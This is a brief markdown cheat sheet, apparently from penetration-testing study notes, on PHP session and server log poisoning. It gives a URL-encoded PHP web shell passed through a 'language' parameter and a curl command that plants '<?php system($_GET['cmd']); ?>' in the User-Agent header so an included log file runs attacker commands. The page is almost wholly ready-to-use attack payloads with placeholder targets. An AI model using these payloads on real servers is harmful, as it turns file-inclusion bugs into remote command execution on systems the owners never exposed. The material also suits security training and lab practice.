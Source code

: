 ```yaml
---
title: Log Poisoning
---
```


# PHP Session Poisoning

## Log Session Poisoning URL

```
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

# Server Log Poisoning


## Burp Suite - Poison User-Agent

<img src="/assets/images/rfi_cmd_repeater.png"/>

## Log Poisoning with cURL

```
Jerad Rodgers@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```